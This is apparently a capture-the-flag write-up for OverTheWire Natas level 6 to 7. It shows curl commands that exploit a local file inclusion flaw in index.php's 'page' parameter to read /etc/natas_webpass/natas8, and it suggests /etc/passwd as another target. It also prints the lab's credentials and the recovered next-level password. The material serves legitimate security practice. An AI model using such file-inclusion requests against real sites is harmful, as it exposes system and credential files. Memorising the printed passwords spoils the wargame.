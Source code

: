 # Natas Level 6 -> 7 

## 🧠 Goal

Find password to the next level

---

## 🔐 Credentials

- **Username:** `natas7`  
- **Host:** `natas7.natas.labs.overthewire.org`   
- **Port:** `80` (HTTP)  
- **Password:** `bmg8SvU1LizuWjx3y7xkNERkHxGre0GS` 

---

## 🖥️ Commands Used

```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS natas7.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "bmg8SvU1LizuWjx3y7xkNERkHxGre0GS" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>

┌──(amro㉿amro)-[~]
└─$ curl -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS \
> natas7.natas.labs.overthewire.org/etc/natas_webpass/natas8 \
> |html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   295  100   295    0     0   1316      0 --:--:-- --:--:-- --:--:--  1322
****** Not Found ******
The requested URL was not found on this server.
===============================================================================
     Apache/2.4.58 (Ubuntu) Server at natas7.natas.labs.overthewire.org
     Port 80
                                                                                                     
┌┌──(amro㉿amro)-[~]
└─$ curl -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS \
natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8 \
> |html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1015  100  1015    0     0   4473      0 --:--:-- --:--:-- --:--:--  4471
****** natas7 ******
Home About

xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
```
___

## 💡 Tips
```bash
curl -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS \
natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
this is the front page
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

After looking at the source code I found that the web links reference a page file which is passed directely into index.php. What does that really mean? What happens if I try to pass the webserver something other than that? This may be a “file include” vulnerability which deals with the fact that some code developers are lazy. For example: What if the line of code which fetches the webpage is something like this: include($_GET['page']); This results in the php script attempting to fetch whatever lies in ‘page’

For example: http://natas7.natas.labs.overthewire.org/index.php?page=/etc/passwd
___

## 📤 Output
```bash
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
```
